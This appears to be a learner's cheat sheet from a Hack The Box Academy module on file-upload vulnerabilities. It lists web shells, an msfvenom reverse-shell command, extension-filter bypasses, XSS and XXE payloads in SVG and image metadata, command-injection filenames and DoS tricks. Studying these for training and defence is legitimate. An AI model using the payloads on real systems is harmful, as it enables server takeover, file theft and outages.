 # FILE UPLOAD

## Payloads
- Web-Extensions: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
- Basic PHP File Read: `<?php file_get_contents('/etc/passwd'); ?>	`
- Basic PHP Command Execution: `<?php system('hostname'); ?>`
- Basic PHP Web Shell: `<?php system($_REQUEST['cmd']); ?>`
- Basic ASP Web Shell: `<% eval request('cmd') %>`
- Generate PHP reverse shell: `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`
- Phpbash-Interactive web shell: https://github.com/Arrexel/phpbash
- Php reverse Shell: https://github.com/pentestmonkey/php-reverse-shell
- All web and Reverse Shell: https://github.com/danielmiessler/SecLists/tree/master/Web-Shells
  ### Blacklist Bypass

  | File Extension	| Purpose |
  | ---------- | ----------- |
  | shell.pHp	| Case Manipulation |
  | [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)	| List of PHP Extensions |
  | [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)	| List of ASP Extensions |
  | [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)	| List of Web Extensions |

  ### Whitelist Bypass
  
  | File Extension	| Purpose |
  | ---------- | ----------- |
  | shell.jpg.php	| Double Extension |
  | shell.php.jpg	| Reverse Double Extension |
  | %20, %0a, %00, %0d0a, /, .\, ., … |	Character Injection - Before/After Extension |

## Arbitary file uploads
https://enterprise.hackthebox.com/academy-lab/30000/2125/modules/136/1291

### Stored XSS :
- web application allows us to upload HTML files. Although HTML files won't allow us to execute code (e.g., PHP), it would still be possible to implement JavaScript code within them to carry an XSS or CSRF attack on whoever visits the uploaded HTML page. If the target sees a link from a website they trust, and the website is vulnerable to uploading HTML documents, it may be possible to trick them into visiting the link and carry the attack on their machines.
- Web applications that display an image's metadata after its upload. For such web applications, we can include an XSS payload in one of the Metadata parameters that accept raw text, like the Comment or Artist parameters, as follows:
  
    ```bash
    $ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
    $ exiftool HTB.jpg
    ...SNIP...
    Comment                         :  "><img src=1 onerror=alert(window.origin)>
    ```
    
    the Comment parameter was updated to our XSS payload. When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack.
  
- If we change the image's MIME-Type to text/html, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.
  
- XSS attacks can also be carried with SVG images, along with several other attacks. Scalable Vector Graphics (SVG) images are XML-based, and they describe 2D vector graphics, which the browser renders into an image. For this reason, we can modify their XML data to include an XSS payload.
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
    <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
        <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
        <script type="text/javascript">alert(window.origin);</script>
    </svg>
    ```
    Once we upload the image to the web application, the XSS payload will be triggered whenever the image is displayed.

### XEE:

- With SVG images, we can also include malicious XML data to leak the source code of the web application, and other internal documents within the server.
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <svg>&xxe;</svg>
  ```
  Once the above SVG image is uploaded and viewed, the XML document would get processed, and we should get the info of (/etc/passwd) printed on the page or shown in the page source.

- To use XXE to read source code in PHP web applications
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
  <svg>&xxe;</svg>
  ```
  Once the SVG image is displayed, we should get the base64 encoded content of index.php, which we can decode to read the source code.

- Using XML data is not unique to SVG images, as it is also utilized by many types of documents, like PDF, Word Documents, PowerPoint Documents, among many others. All of these documents include XML data within them to specify their format and structure. Suppose a web application used a document viewer that is vulnerable to XXE and allowed uploading any of these documents. In that case, we may also modify their XML data to include the malicious XXE elements, and we would be able to carry a blind XXE attack on the back-end web server.
- Another similar attack that is also achievable through these file types is an SSRF attack. We may utilize the XXE vulnerability to enumerate the internally available services or even call private APIs to perform private actions. For more about SSRF, you may refer to the Server-side Attacks module.

### DoS
- **Decompression Bomb** : If a web application automatically unzips a ZIP archive, it is possible to upload a malicious archive containing nested ZIP archives within it, which can eventually lead to many Petabytes of data, resulting in a crash on the back-end server.
- **Pixel Flood** : We can create any JPG image file with any image size (e.g. 500x500), and then manually modify its compression data to say it has a size of (0xffff x 0xffff), which results in an image with a perceived size of 4 Gigapixels. When the web application attempts to display the image, it will attempt to allocate all of its memory to this image, resulting in a crash on the back-end server.
- If the upload function is vulnerable to directory traversal, we may also attempt uploading files to a different directory (e.g. ../../../etc/passwd), which may also cause the server to crash. 

## Other 
https://enterprise.hackthebox.com/academy-lab/30000/2125/modules/136/1292

### Injection
- OS Command in file names:
  - ```file$(whoami).jpg```
  - ```file`whoami`.jpg```
  - ```file.jpg||whoami```
- XSS PAyload:
  - ```<script>alert(window.origin);</script>```
- SQL Query:
    - ```file';select+sleep(5);--.jpg```
 
### Upload Directory Disclosure
- fuzzing to look for the uploads directory or even use other vulnerabilities (e.g., LFI/XXE) to find where the uploaded files are by reading the web applications source code
- Error Message
  - uploading a file with a name that already exists
  - sending two identical requests simultaneously
  - uploading a file with an overly long name (e.g., 5,000 characters)
- Windows-Specific techniques
  - attack is using reserved characters, such as (|, <, >, *, or ?), which are usually reserved for special uses like wildcards.
  - Windows reserved names for the uploaded file name, like (CON, COM1, LPT1, or NUL), which may also cause an error as the web application will not be allowed to write a file with this name.
  - utilize the Windows 8.3 Filename Convention to overwrite existing files or refer to files that do not exist
  - file called (hackthebox.txt) we can use (HAC\~1.TXT) or (HAC\~2.TXT), where the digit represents the order of the matching files that start with (HAC). As Windows still supports this convention, we can write a file called (e.g. WEB~.CONF) to overwrite the web.conf file.

    
